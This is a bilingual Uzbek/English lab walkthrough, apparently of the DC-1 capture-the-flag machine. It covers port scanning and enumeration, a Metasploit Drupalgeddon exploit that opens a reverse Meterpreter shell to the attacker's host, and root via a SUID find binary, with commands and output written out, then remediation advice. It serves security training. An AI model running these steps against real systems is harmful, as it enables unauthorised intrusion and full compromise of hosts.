Razvedka (Reconnaissance)
Reconnaissance
01
Masscan
Barcha 65535 portni tez skanerlash uchun masscan ishlatamiz. Natija ports fayliga yoziladi.
We use masscan to quickly scan all 65535 ports. Results are saved to the ports file.
└─$ sudo masscan -p1-65535 192.168.228.193 --rate=1000 -e tun0 >ports

masscan — 65535 port SYN stealth scan
masscan — 65535 ports SYN stealth scan
Nmap
Masscan topgan portlarni -sCV bilan nmap ga beramiz. Muhim topilma: Drupal 7 va robots.txt da ko'p yashirin yo'llar.
We pass masscan's ports to nmap with -sCV. Key finding: Drupal 7 and many hidden paths in robots.txt.
└─$ ports=$(cat ports | awk -F " " '{print $4}' | cut -d'/' -f1 | sort -n | tr '\n' ',' | sed 's/,$//')
└─$ nmap -sCV -p$ports 192.168.228.193 -T4 -oN nmap.txt

nmap — Drupal 7, SSH, rpcbind topildi
nmap — Drupal 7, SSH, rpcbind discovered
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 6.0p1 Debian
80/tcp open http Apache httpd 2.2.22 (Debian)
| http-generator: Drupal 7
| http-robots.txt: 36 disallowed entries
111/tcp open rpcbind
ℹ
Nmap Drupal 7 ni darhol aniqladi va robots.txt da 36 ta yashirin yo'l bor. Bu juda ko'p ma'lumot — versiya + robots.txt = exploit qidirish.
Nmap immediately identified Drupal 7 and robots.txt has 36 disallowed entries. Lots of info — version + robots.txt = time to search for exploits.
Web sahifa va robots.txt
Web Page & robots.txt
Brauzerda Drupal Site ko'rinadi. Footer da "Powered by Drupal" — versiya tasdiqlandi. robots.txt da /UPGRADE.txt — bu Drupal versiyasini aniq ko'rsatadi.
Browser shows a Drupal Site. Footer confirms "Powered by Drupal". robots.txt contains /UPGRADE.txt — this reveals the exact Drupal version.

Drupal 7 — login sahifasi, footer da versiya oshkor
Drupal 7 — login page, version exposed in footer

robots.txt — UPGRADE.txt yo'li Drupal versiyasini oshkor qiladi
robots.txt — UPGRADE.txt path reveals exact Drupal version

UPGRADE.txt — Drupal 7.x aniq versiyasi tasdiqlandi
UPGRADE.txt — Drupal 7.x exact version confirmed
Directory Enumeration
Directory Enumeration
Gobuster bilan web direktoriyalarni skanerlaymiz — Drupal strukturasi to'liq ko'rinadi.
Using gobuster to enumerate web directories — full Drupal structure is visible.
└─$ gobuster dir -u http://192.168.228.193/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -x php,txt

gobuster — Drupal strukturasi: modules, themes, profiles, install.php
gobuster — Drupal structure: modules, themes, profiles, install.php
!
install.php va update.php ochiq — bu Drupal misconfiguratsiyas. Lekin asosiy vektor — Drupalgeddon.
install.php and update.php are accessible — Drupal misconfiguration. But main attack vector is Drupalgeddon.
Zaiflikni Aniqlash
Vulnerability Assessment
02
Searchsploit — Drupal 7
Drupal 7 versiyasi aniqlandi — searchsploit bilan ma'lum exploitlarni qidiramiz.
Drupal 7 version identified — searching for known exploits with searchsploit.
└─$ searchsploit drupal 7.0

searchsploit — Drupalgeddon, Drupalgeddon2, Drupalgeddon3 topildi
searchsploit — Drupalgeddon, Drupalgeddon2, Drupalgeddon3 found
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection | php/webapps/34992.py
Drupal < 7.58 - 'Drupalgeddon3' RCE (Metasploit) | php/webapps/44557.rb
Drupal < 8.3.9 - 'Drupalgeddon2' RCE (PoC) | php/webapps/44448.py
Drupal < 8.3.9 - 'Drupalgeddon2' RCE (Metasploit) | php/remote/44482.rb
→
Ikki yo'l: 44448.py (manual PoC) va Metasploit Drupalgeddon. Avval manual sinab ko'ramiz, ishlamasa Metasploit ishlatamiz.
Two paths: 44448.py (manual PoC) and Metasploit Drupalgeddon. We try manual first, then fall back to Metasploit.
Dastlabki Kirish (Initial Access)
Initial Access
03
44448.py — Manual PoC (Ishlamadi)
44448.py — Manual PoC (Failed)
Drupalgeddon2 PoC (CVE-2018-7600) ni sinab ko'ramiz — lekin "Not exploitable" qaytardi. Bu versiya mos kelmadi.
Testing Drupalgeddon2 PoC (CVE-2018-7600) — returns "Not exploitable". Version mismatch.
└─$ python3 44448.py
Enter target url: http://192.168.228.193/

44448.py — "Not exploitable", Metasploit ga o'tamiz
44448.py — "Not exploitable", switching to Metasploit
Not exploitable
Metasploit — Drupalgeddon (Muvaffaqiyatli)
Metasploit — Drupalgeddon (Success)
Metasploit da drupal_drupageddon modulini ishlatamiz. Bu Drupal 7.0–7.31 uchun SQL injection orqali RCE beradi.
Using Metasploit's drupal_drupageddon module. This gives RCE via SQL injection for Drupal 7.0–7.31.
msf6 > use exploit/multi/http/drupal_drupageddon
msf6 exploit > set rhosts 192.168.228.193
msf6 exploit > set lhost 192.168.45.169
msf6 exploit > run

Drupalgeddon — Meterpreter session ochildi
Drupalgeddon — Meterpreter session opened
[*] Started reverse TCP handler on 192.168.45.169:4444
[*] Sending stage (42137 bytes) to 192.168.228.193
[*] Meterpreter session 1 opened
meterpreter >
→
Meterpreter session olindi — lekin shell upgrade qilamiz. shell → python -c 'import pty;pty.spawn("/bin/bash")'
Meterpreter session obtained — upgrading to full shell. shell → python -c 'import pty;pty.spawn("/bin/bash")'
Imtiyoz Oshirish (Privilege Escalation)
Privilege Escalation
04
SUID — find binary
SUID — find Binary
SUID bitli fayllarni qidiramiz. /usr/bin/find SUID bilan — GTFOBins da bu root shell beradi.
Searching for SUID binaries. /usr/bin/find has SUID set — GTFOBins confirms this gives root shell.
www-data@DC-1:/home$ find / -type f -perm -4000 2>/dev/null

SUID binarlar — /usr/bin/find highlighted
SUID binaries — /usr/bin/find highlighted
/bin/mount
/bin/ping
/usr/bin/chsh
/usr/bin/find
/usr/sbin/exim4
...
!
/usr/bin/find SUID — GTFOBins da find . -exec /bin/bash -p \; -quit root shell beradi.
/usr/bin/find SUID — GTFOBins: find . -exec /bin/bash -p \; -quit gives root shell.
find SUID → root
find binary orqali -exec flag bilan bash chaqiramiz. SUID tufayli root huquqida ochiladi.
Using find's -exec flag to call bash. SUID bit causes it to open with root privileges.
www-data@DC-1:/usr/bin$ find . -exec /bin/bash -p \; -quit
bash-4.2# whoami

find SUID → /bin/bash -p → root ✓
find SUID → /bin/bash -p → root ✓
bash-4.2# whoami
root
bash-4.2# cd /root && ls
proof.txt thefinalflag.txt
Zaiflik Tahlili
Vulnerability Analysis
06
| Drupalgeddon (CVE-2014-3704) |
Kritik |
Critical |
Drupal 7.0-7.31 SQL injection → RCE |
Drupal 7.0-7.31 SQL injection → RCE |
| find SUID |
Yuqori |
High |
Keraksiz SUID bit — root shell olish mumkin |
Unnecessary SUID bit — root shell obtainable |
| Versiya oshkor |
Version Disclosure |
O'rta |
Medium |
UPGRADE.txt, robots.txt versiyani oshkor qiladi |
UPGRADE.txt, robots.txt expose exact version |
Drupal: Versiyani yangilash — 7.31 dan yuqori. UPGRADE.txt, CHANGELOG.txt kabi fayllarni public dan yashirish.
Drupal: Update to version above 7.31. Hide UPGRADE.txt, CHANGELOG.txt from public access.
find SUID: chmod u-s /usr/bin/find — SUID bitini olib tashlash.
find SUID: Remove the SUID bit: chmod u-s /usr/bin/find.